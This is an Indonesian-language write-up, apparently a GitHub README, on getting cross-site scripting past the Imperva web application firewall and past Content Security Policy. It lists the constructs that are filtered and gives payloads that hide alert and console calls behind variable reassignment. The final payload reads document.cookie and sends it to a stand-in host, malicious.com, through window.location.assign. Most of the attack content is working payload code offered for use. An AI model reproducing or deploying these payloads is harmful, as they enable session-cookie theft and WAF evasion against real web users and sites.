# XSS BYPASS IMPERVA dan CSP(Content Security Policy)  - 25 Januari 2022
# Imperva memfilter beberapa hal
## 1. Tag HTML yang malicious 
    * <script>
    * <img src>
    * javascript::
## 2. Built in function dari javascript
```javascript
console.log("test")
alert("test")
prompt()
window.open("http://malicious.com")
```


## Bypass ini bisa dilakukan jika kita sudah bisa mengontrol variabel pada javascript
* Example Vulnerable Code: 


    ![Alt text](./1.png "Vulnerable Code")

### Disini kita bisa memanggil function yang difilter dengan cara menyimpan objek dari function ke variable dahulu
Example Payload :
```javascript
');let f=123;f=2;f=console;f.log("XSS CONSOLE HERE");//
```

```javascript
');let f=123;f=2;f=alert;f("XSS ALERT HERE");//
```


### maka payload yang diterima server menjadi :
![Alt text](./2.png "Final Payload")

# Bypass CSP (Content Security Policy)
### kita bisa memanfaatkan function javascript :
```javascript
window.open("http://malicious.com")
window.location.assign("http://malicious.com")
window.location.replace("http://malicious.com")
```

### Apabila digabungkan dengan bypass xss sebelumnya maka final payload menjadi :
```javascript
')let x=22;x=document;x=x.cookie;let f=123;f=2;f=window;f=f.location;f.assign("http://malicious.com/"+x);//
```
